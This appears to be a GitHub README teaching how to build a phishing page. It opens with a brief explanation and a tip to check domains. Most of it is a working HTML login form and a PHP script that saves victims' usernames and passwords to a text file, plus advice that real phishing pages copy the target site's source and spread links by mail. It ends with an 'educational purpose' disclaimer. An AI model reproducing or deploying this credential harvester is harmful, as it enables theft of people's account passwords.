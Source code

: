 # Phishing Tutoral
If you haven't heard about ```phishing``` , then you should. Phising is an old, traditional way to retrieve your account password. The basic idea behind phishing is to create a copy of login or whole website and allow user to login so as to save account credentials. 
eg. an attacker creates a copy of gmail page, which exactly looks similar to the original, but coded in a way that it will store credentials whenever someone tries to login through that page. Now the attacker will share the link of his phising page somehow (through mails, messages, web links, etc.) and attacker has all the credentials of all the users who tried to login through phishing page.

### For security: Always confirm the url of the website you're loggin in. Don't try to login with your original credentials on some fake, similar looking page having some other domain.
ie. don't try to login on phishing.etc/github (some github phishing page) with your original github.com credentials. 
Note that git-hub.com and github.com are two different domains. :D

# Let's start some phishing stuff
We will use ```PHP``` to manage our data and store the credentials in flat files.
In this tutorial we are not going to copy any page but in reality, phishing pages are exactly similar to original pages.
This can be simply achieved by copying the source code.
Okay, enough intro, let's make it work.

Here is simple html form

```
<form action="save.php" method="POST">
  Username:
  <input type="text" name="username"/>
  <input type="password" name="password"/>
</form>
```

This sends the victim to ```save.php``` this is where the credentials will be stored.
Code:

```
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$file = fopen("data.txt", "a") or die("some error occured"); //open file, create if doesn't exist
$txt = "$username $password\n"; //store data as username password
fwrite($file, $txt); //write to our file
fclose($file); //close the file handle

echo 'Your username and password is stored in our database. Change it soon!';

```

Done. Pretty easy!

#### Note: This tutorial for educational purpose don't use it for illegal purposes.
